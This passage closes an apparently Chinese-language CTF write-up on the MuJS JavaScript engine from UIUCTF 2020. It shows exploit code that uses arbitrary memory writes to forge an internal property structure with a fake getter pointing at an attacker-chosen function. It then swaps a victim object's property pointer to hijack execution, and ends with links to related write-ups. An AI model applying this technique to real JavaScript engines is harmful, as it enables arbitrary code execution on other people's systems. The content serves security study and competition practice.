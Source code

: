 ```js
    ** fake_property start from data **
    const char *name; // 0-7
    js_Property *left, *right; // 8-f, 10-17
    int level; // 18-1b
    int atts; // 1c-1f
    js_Value value; // 20 - 2f
    js_Object *getter; // 30 - 37
    js_Object *setter; // 38 - 3f
    */
    write64(target_property, target_property + 0x10);
    write64(target_property + 0x10, u64("trigger\x00")); // fake property name
    write64(target_property + 0x30, target_property + 0x40); // fake getter
    
    write32(target_property + 0x40, 0x5); // 0x5 == JS_CCFUNCTION
    write64(target_property + 0x68, addr); // our target function (c.function)
    write64(target_property + 0x78, 0); // gcnext --> NULL

    // change slave property
    master.edit(0x108, target_property % 0x100000000);
    master.edit(0x10c, target_property / 0x100000000);

    slave.trigger;
    
    // restore property
    master.edit(0x108, orig_slave_property % 0x100000000);
    master.edit(0x10c, orig_slave_property / 0x100000000);
    print(target_property);
}
```



#### reference

- [Jwang 的 writeup](https://hackmd.io/@M30W/UIUCTF2020-MuJS-Writeup#0x00-gt-Table-of-Contents)
- [ptr-yudai](https://ptr-yudai.hatenablog.com/entry/2020/07/20/153619#Pwn-MuJS) (還沒看)



相似的題目還有：

- [0CTF oneline JS](https://kylebot.net/2020/07/03/0CTF-2020-Quals-One-Line-JS/)